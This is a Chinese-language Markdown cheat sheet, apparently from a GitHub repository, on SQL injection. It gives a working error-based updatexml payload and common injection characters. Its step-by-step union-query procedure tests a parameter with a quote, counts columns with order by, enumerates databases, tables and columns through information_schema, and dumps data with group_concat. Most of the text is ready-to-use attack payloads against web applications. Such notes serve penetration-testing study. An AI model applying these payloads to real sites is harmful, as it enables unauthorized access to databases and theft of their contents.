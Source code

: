 # SQL 注入
## 注入方法
1) 联合查询注入
2) 报错注入
?id=1' and updatexml(1,(concat('^',database(),'^')),1) --
3) 延迟注入
4) BOOL盲注
## 常用SQL注入字符
```SQL
` . ' " ) ] } / \ --
```
## Firefox 黑客工具栏
- Hackbar
## 联合查询注入
1) 看页面URL地质是否有后台传参动作
2) 构造传参值  ?id=51' 验证输入后台是否能够解析
3) and 1=1判断页面是否正常； and 1=2 判断页面是否部分报错; or 1=1 
4) order by 5 (5可以是其他数字，找到报错和不报错的临界点，取不报错的最大值)
5) union select 1,2,3,4,5,6,7 --+ 
- --+指注释掉插入攻击语句后的所有代码
- 匹配order by 验证出来的列数
- 联合查询时，前面Id的值要用负数（-5）
6) union select 1,2,3,4,5,6,构造语句,7
- database()  当前使用的数据库名称
- user()      当前登陆数据库的用户
- @@version   当前数据库版本
- @@basedir   查看路径
7) 爆库   查看当前数据库中有哪些表
```SQL
(select group_concat(table_name) from information_schema.tables where table_schema=0xxxx)
-- table_schema 的值需要输入16进制
```
8) 爆表   找到疑似关键信息的表
9) 查询表的列
```SQL
(select group_concat(column_name) from information_schema.columns where table_schema=0xxxx and table_name=0xxxx)
-- table_schema 和 tabale_name 的值需要输入16进制
```
10) 爆数据  查询表中的数据
```SQL
(select group_concat(concat(column1, column2, '%23')) from table_name)
-- %23 是URL编码
```
